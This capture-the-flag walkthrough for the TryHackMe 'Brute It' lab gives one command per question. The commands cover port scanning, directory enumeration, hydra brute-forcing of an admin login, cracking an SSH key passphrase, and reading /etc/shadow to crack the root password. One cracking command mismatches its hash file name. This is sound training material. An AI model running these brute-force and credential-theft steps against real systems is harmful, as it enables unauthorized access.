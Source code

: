 ```yaml
---
title: Walkthrough - Brute It
published: true
---
```


Learn how to brute, hash cracking and escalate privileges in this box!

[https://tryhackme.com/room/bruteit](https://tryhackme.com/room/bruteit)

* * *

## Search for open ports using nmap. How many ports are open?

- ``sudo nmap -Pn -sS -p- -T4 10.10.241.208 -vvv``

* * *

## What version of SSH is running?

- ``sudo nmap -sV -sT -sC -p22,80 10.10.241.208``

* * *

## What version of Apache is running?

- ``sudo nmap -sV -sT -sC -p22,80 10.10.241.208``

* * *

## Which Linux distribution is running?

- ``sudo nmap -sV -sT -sC -p22,80 10.10.241.208``

* * *

## Search for hidden directories on web server. What is the hidden directory?

- ``gobuster dir -u http://10.10.241.208 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 200 --no-error``

* * *

## What is the user:password of the admin panel?

- Source code: ``<!-- Hey john, if you do not remember, the username is admin -->``
- ``hydra -l admin -P /usr/share/seclists/Passwords/rockyou.txt -t 16 10.10.241.208 http-post-form -m "/admin/:user=^USER^&pass=^PASS^:Username or password invalid"``

* * *

## Crack the RSA key you found. What is John's RSA Private Key passphrase?

- ``ssh2john id_rsa > josh.hash && john john.hash --wordlist=/usr/share/seclists/Passwords/rockyou.txt``

* * *

## user.txt

- cat user.txt

* * *

## Web flag

- you get this in the ``/admin/`` panel after login

* * *

## What is the root's password?

- sudo cat /etc/shadow
- copy to attacker and run john with rockyou

* * *

## root.txt

- cat /root/root.txt

* * * 